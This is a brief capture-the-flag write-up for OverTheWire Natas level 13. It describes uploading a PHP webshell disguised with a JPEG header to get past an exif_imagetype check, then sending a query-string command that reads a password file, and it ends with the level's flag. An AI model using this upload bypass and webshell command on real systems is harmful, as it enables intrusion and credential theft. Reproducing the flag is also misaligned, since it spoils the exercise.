

# Natas Level 13 Solution

here we inject webshell, but here we add the header of jpeg file in the begin of the content, because the php code use the func `exif_imagetype`



then, we go to `upload/h0854v8rab.php` which is the url
```
http://natas13.natas.labs.overthewire.org/upload/h0854v8rab.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas14`

**Flag:** ***`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`*** 